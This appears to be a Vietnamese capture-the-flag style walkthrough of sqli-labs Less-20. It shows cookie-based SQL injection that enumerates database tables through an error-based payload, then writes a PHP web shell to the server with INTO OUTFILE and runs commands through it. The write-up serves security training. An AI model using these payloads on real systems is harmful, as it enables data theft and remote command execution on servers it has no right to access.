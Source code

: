 # Less 20

Đề bài cho một khung đăng nhập

![](../images/sqli-labs/Less-20/01.png)

Thử login

![](../images/sqli-labs/Less-20/02.png)

Ta tìm cách để pass qua màn đăng nhập này nhưng không thể pass qua màn này. Tôi dùng một tài khoản để login vào đây

![](../images/sqli-labs/Less-20/03.png)

Tôi thấy ở đây hiển thị lên khá nhiều thông tin

![](../images/sqli-labs/Less-20/04.png)

Ta thấy ở đây có một số thông tin trong request header. 

Tôi thử sửa `user-agent` trong http request header

![](../images/sqli-labs/Less-20/05.png)

Tôi thấy giá trị này đã được get lên trên màn hình

![](../images/sqli-labs/Less-20/06.png)

Tôi thử nhập vào đây một số giá trị có các ký tự đặc biệt để xem có thấy gì khác biệt ở đây không. Nhưng tôi không thấy gì đặc biệt ở đây. Tôi thấy còn có giá trị cookie. Tôi thử sửa giá trị này trong http header request

![](../images/sqli-labs/Less-20/07.png)

Tôi thấy giá trị cũng đã được get để hiển thị lên trên màn hình

![](../images/sqli-labs/Less-20/08.png)

Tôi cũng thử truyền linh tinh vào đây xem có gì không. Khi tôi nhập vào là

![](../images/sqli-labs/Less-20/10.png)

Thì thấy lỗi SQL trả về màn hình

![](../images/sqli-labs/Less-20/9.png)

Tôi thấy ở đây nó đã get giá trị ở cookies để truyền vào câu lệnh SQL. Câu query ở đây rất có thể là câu lệnh select vì tôi thấy có limit ở sau. Tôi thử dùng order by để xem câu select sẽ gọi lên bn cột thì tôi thấy khi khi dùng đến 4 thì có lỗi

![](../images/sqli-labs/Less-20/11.png)

Như vậy câu select sẽ lấy giá trị của 3 trường. Như vậy dựa vào đây chúng ta có thể show lên các giá trị bên trong DB.

Show tên của DB đang thao tác

![](../images/sqli-labs/Less-20/12.png)

![](../images/sqli-labs/Less-20/13.png)

Show các bảng trong DB

Khi truyền vào cookies như sau

```
Cookie: uname=niemdt' and (SELECT 0 FROM (SELECT count(*), CONCAT((select table_name from information_schema.tables where table_schema='security' limit 0,1), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y)  -- '
```

Kết quả trả về

![](../images/sqli-labs/Less-20/14.png)

Như vậy ta hoàn toàn có thể khai thác toàn bộ thông tin trong DB giông như những bài trước

Ta  cũng có thể tuyền vào một đoạn mã PHP 

```
Cookie: uname=admin' union select 1,2,"<?php system ($_REQUEST['cmd'])?>" into outfile '/var/www/html/tests/c5.php' -- '
```

![](../images/sqli-labs/Less-20/15.png)

Ta thấy kết quả response lại màn hình

![](../images/sqli-labs/Less-20/16.png)

Giờ có thể thao tác

![](../images/sqli-labs/Less-20/17.png)